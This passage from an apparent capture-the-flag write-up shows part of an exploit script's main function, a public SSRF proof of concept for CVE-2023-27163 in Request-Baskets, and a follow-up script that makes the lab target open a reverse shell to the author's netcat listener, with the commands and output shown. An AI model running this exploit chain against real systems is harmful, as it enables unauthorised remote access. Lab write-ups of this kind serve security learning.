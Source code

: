 ```

def main():
	listening_IP = None
	listening_PORT = None
	target_URL = None

	if len(sys.argv) != 4:
		print("Error. Needs listening IP, PORT and target URL.")
		return(-1)
	
	listening_IP = sys.argv[1]
	listening_PORT = sys.argv[2]
	target_URL = sys.argv[3] + "/login"
	print("Running exploit on " + str(target_URL))
	curl_cmd(listening_IP, listening_PORT, target_URL)

```

#### Exploit

To exploit this, I’ll grab the POC, but remove where it adds `/login` on line 28. I’ll get a new SSRF url that goes to `/login`:

```

oxdf@hacky$ ./cve-2023-27163.sh http://10.10.11.224:55555 http://127.0.0.1:80/login
Proof-of-Concept of SSRF on Request-Baskets (CVE-2023-27163) || More info at https://github.com/entr0pie/CVE-2023-27163

> Creating the "jgulua" proxy basket...
> Basket created!
> Accessing http://10.10.11.224:55555/jgulua now makes the server request to http://127.0.0.1:80/login.
> Authorization: Je6HFdfIxVWIxmlDzyQWsTnB0uFGpdBAkOb8n3WniMGZ

```

Now I’ll run the modified exploit script:

```

oxdf@hacky$ python mailtrack_rce.py 10.10.14.6 443 http://10.10.11.224:55555/jgulua
Running exploit on http://10.10.11.224:55555/jgulua

```

It hangs, but at a listening `nc` there’s a shell:

```

oxdf@hacky$ nc -lnvp 443
Listening on 0.0.0.0 443
Connection received on 10.10.11.224 46168
$ id
uid=1001(puma) gid=1001(puma) groups=1001(puma)

```
